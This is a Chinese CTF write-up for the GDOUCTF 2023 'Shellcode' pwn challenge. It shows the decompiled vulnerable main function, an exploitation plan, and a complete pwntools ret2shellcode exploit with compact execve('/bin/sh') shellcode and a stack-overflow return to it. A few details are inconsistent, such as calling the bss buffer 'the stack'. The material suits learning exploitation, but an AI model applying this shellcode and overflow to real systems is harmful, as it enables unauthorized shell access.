 ```yaml
---
title: '[GDOUCTF 2023] Shellcode'
date: 2024-08-17 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2shellcode,shellcode]
---
```


```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  puts("Please.");
  read(0, &name, 37uLL);                        // bss
  puts("Nice to meet you.");
  puts("Let's start!");
  read(0, buf, 0x40uLL);		//溢出点
  return 0;
}
```

程序逻辑:

1. 第一个`read()`接收数据并保存到位于`bss`段上的`name`
2. 第二个`read()`接受数据并保存到栈上`buf`变量

利用思路:

1. 利用第一个`read()`往栈上写入`shellcode`
2. 利用第二个`read()`溢出跳转到`&name`调用`shellcode`完成利用

exp:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
io = gdb.debug('./ezshellcode')
name_addr = 0x6010a0
shellcode = '''
xor rdx,rdx;
push rdx;
mov rsi,rsp;
mov rax,0x68732f2f6e69622f;
push rax;
mov rdi,rsp;
mov rax,59;
syscall;
'''
io.sendlineafter(b'Please.',asm(shellcode))
io.sendlineafter(b'start!',b'A'*18+p64(name_addr))

io.interactive()
```

tips:

第一段输入的`shellcode`被限制在`32`字节之内,所以不能用`pwntools`自带的`shellcode`生成器,需要找一个更短的`shellcode`
